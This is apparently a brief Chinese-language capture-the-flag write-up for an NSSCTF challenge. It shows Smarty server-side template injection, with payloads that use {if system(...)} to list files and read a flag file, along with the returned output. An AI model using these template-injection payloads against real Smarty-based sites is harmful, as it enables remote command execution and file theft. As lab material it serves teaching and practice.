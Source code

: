 发现有smarty

```
data={php}phpinfo();{/php}   //php报错

构造
data={if system('ls /f*')}{/if}
返回：/flag_13_searchmaster
再构造
data={if system('cat /flag_13_searchmaster')}{/if}
```

还发现

![image-20250820073939393](./NSSCTF-6.assets/image-20250820073939393.png)

![image-20250820074014847](./NSSCTF-6.assets/image-20250820074014847.png)
